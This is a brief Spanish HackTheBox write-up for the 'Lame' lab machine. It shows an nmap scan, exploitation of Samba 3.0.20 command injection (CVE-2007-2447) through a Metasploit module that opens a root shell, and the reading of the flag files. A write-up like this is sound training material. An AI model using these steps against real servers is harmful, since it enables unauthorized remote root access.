





# Lame — HackTheBox

**Cadena de ataque:** Samba 3.0.20 (CVE-2007-2447) → Metasploit → root directo

---

## Reconocimiento

```bash
nmap -sC -sV 10.129.8.84
```



Puertos relevantes: FTP (21) con vsftpd 2.3.4, SSH (22) y Samba (139/445) versión 3.0.20-Debian. La versión de Samba es vulnerable a ejecución remota de comandos via CVE-2007-2447.

---

## Explotación — CVE-2007-2447

Samba 3.0.20 permite inyección de comandos a través del campo de usuario cuando la opción `username map script` está habilitada. Buscamos el módulo en Metasploit:

```bash
search CVE-2007-2447
```



```bash
use 0
set LHOST 10.10.15.196
set RHOSTS 10.129.8.84
run
```



La sesión se abre directamente como **root** — no hay escalada de privilegios necesaria.

---

## Flags

```bash
cd /root && cat root.txt
```



```bash
cd /home/makis && cat user.txt
```




